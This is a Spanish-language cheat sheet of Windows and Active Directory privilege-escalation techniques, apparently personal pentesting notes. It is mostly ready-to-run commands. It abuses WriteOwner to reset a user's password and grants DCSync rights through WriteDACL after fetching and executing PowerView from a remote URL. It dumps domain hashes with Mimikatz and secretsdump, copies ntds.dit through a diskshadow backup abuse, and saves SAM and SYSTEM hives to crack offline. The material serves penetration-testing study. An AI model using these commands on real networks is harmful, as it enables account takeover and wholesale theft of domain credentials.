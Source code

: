 # Privilege Escalation

## Indice

* [Enumeración](./#enumeracion)
* [Privilegios](./#privilegios)
  * [WriteOwner](./#writeowner)
  * [WriteDACL](./#writedacl)
  * [SeBackupPrivilege](./#sebackupprivilege)
* [Dumpear Hashes](./#dumpear-hashes-en-memoria-a-nivel-local)

## Enumeración

```powershell
# Get current Windows Version
reg query "hklm\software\microsoft\windows nt\currentversion" /v ProductName
[Environment
::Is64BitProcess # 32 or 64 bits

# What can i do
whoami /priv
whoami /all

# List user by perms
net localgroup <PERM>
net localgroup "Remote Managment Users"
```



## Privilegios

### WriteOwner

Este privilegio permite cambiar la contraseña del usuario sobre el que se tenga este privilegio.

```powershell
### Set the owner of claire in the current domain to tom.
Set-DomainObjectOwner -identity claire -OwnerIdentity tom 

### Give tom permissions to change passwords on that ACL
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword 

### Create powershell credential and change credentials. 
$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

### WriteDACL

Este privilegio permite modificar el DACL (Discretionary Access Control List) del dominio, permitiendo darle cualquier privilegio que se quiera a un determinado objeto del DC, por ejemplo capacidad de DCSync. Para explotar existosamente se debe importar el script de PowerView.ps1 que nos permitira modificar los ACL.

```powershell
# Dar privilegios DCSync a un usuario
IEX(New-object System.Net.WebClient).downloadString('http://<url>/Powerview.ps1')
$SecPassword = ConvertTo-SecureString '<user-pass>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity <domain> -Rights DCSync

# Dumpear hashes
lsadump::dcsync /domain:testlab.local /user:Administrator # Local with Mimikatz
impacket-secretsdump <domain>/<user>@<IP> # Remote with secretsdump
```

### SeBackupPrivilege

Este privilegio permite hacer una copia de seguridad de archivos y directorios.

La explotación se la realiza a traves de **diskshadow.exe** en donde se copia todo el disco C a un disco que nos vamos a montar nosotros para después poder esta montura aunque no podemos examinar el disco C (o el que queramos analizar).

```powershell
# Crear un txt con estos parámetros, y agregar un espacio al final de cada línea
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:

# Ejecutar este comando una vez creado el txt para realizar la montura
diskshadow.exe /s c:\<txt-created>.txt

# Realizar la copia
copy z:\Windows\NTDS\ntds.dit .
robocopy /b z:\Windows\NTDS\ . ntds.dit
```

###

## Dumpear Hashes en memoria a nivel LOCAL

```bash
reg save HKLM\system system # Copiar la key system
reg save HKLM\sam sam       # Copiar la key sam


## Ya en kali
impacket-secretsdump -system system -sam sam LOCAL 
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```

